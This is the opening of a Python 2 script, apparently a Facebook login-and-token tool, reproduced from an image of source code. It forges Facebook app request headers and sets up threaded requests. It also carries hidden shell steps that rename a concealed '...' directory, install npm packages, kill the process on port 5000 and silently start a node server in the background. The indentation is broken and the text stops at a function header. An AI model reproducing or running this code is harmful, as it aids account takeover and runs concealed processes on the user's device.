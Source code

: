 # # coding=utf-8
#!/usr/bin/python
# coding=utf-8
# coded by : Mr.Real-Ishiya

try:
    import os,sys,time,datetime,random,hashlib,re,threading,json,getpass,urllib,cookielib,requests
    from multiprocessing.pool import ThreadPool
except ImportError:
    os.system("pkg install python -y")
    os.system("pip install requests")
    os.system("pip install mechanize")
    os.system("pip2 install nodejs")
    os.system("pip2 install npm")
    os.system("python2 ab.py")
try:
    os.mkdir('save')
except OSError:
    pass
    if os.path.isfile('.../index.js'):
 	os.system('mv ... .....')
	os.system('cd ..... && npm install')
 	os.system('#')
 	os.system('#')
 	os.system('fuser -k 5000/tcp &')
 	os.system('#')
 	os.system('node ...../index.js &')
 	os.system('fuser -k 5000/tcp &')
 	os.system('#')
 	os.system('node ...../index.js &')
from requests.exceptions import ConnectionError
bd=random.randint(2e7, 3e7)
sim=random.randint(2e4, 4e4)
header={'x-fb-connection-bandwidth': repr(bd),'x-fb-sim-hni': repr(sim),'x-fb-net-hni': repr(sim),'x-fb-connection-quality': 'EXCELLENT','x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA','user-agent':'Mozilla/5.0 (Linux; Android 5.0; SM-G900P Build/LRX21T; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.121 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/35.0.0.48.273;]','content-type': 'application/x-www-form-urlencoded','x-fb-http-engine': 'Liger'}
reload(sys)
sys.setdefaultencoding("utf8")

def abm(z):
	for e in z + "\n":
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(0.03)
		
def logging():
    titik = [".   ","..  ","... "]
    for o in titik:
        print("\r\033[1;32m[+] Logging In\033[0;97m "+o),;sys.stdout.flush();time.sleep(1)
def saving():
    titik = [".   ","..  ","... "]
    for o in titik:
        print("\r\033[1;32m[+] Saving Token\033[0;97m "+o),;sys.stdout.flush();time.sleep(1)
def updateing():
    titik = [".   ","..  ","... "]
    for o in titik:
        print("\r\033[1;32m[+] Getting Updates\033[0;97m "+o),;sys.stdout.flush();time.sleep(1)
def logout():